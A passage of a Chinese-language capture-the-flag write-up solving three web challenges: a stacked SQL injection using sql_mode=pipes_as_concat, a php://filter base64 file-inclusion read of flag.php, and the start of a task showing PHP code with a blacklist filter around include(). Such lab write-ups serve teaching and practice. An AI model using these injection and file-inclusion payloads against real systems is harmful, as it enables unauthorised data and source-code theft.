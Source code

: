 直接出flag

## 0x5.[SUCTF 2019]EasySQL

还是堆叠注入

show databases;和show tables后就不知道干啥了。。

后来看了wp：select $_post[query] || flag from flag

### 1）正解

```sql
1;set sql_mode=pipes_as_concat;select 1
```

即：selecr 1;sett sql_mode=pips_as_concat;select 1 || flag from flag

**补充**：

补充系统变量@@sql_mode：是一组mysql支持的基本语法及校验规则
PIPES_AS_CONCAT：将“||”视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样的，也和字符串的拼接函数Concat相类似

[Mysql中sql_mode参数](https://blog.csdn.net/weixin_42373127/article/details/88866710)

### 2）非预期解

构造：

``` 
select *,1 || flag from flag
```

## 0x6.[ACTF2020 新生赛]Include

使用php://input 伪协议+POST发送php代码，不行

使用php://filter伪协议进行包含

于是：

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

php://filter与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，阻止其不执行。从而导致任意文件读取。

php://filter 伪协议文件包含读取源代码，加上read=convert.base64-encode，用base64编码输出，不然会直接当做php代码执行，看不到源代码内容。

## 0x7.[极客大挑战 2019]Secret File

有个action.php的文件，之后抓包访问，有个secr3t.php文件，访问：

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
```
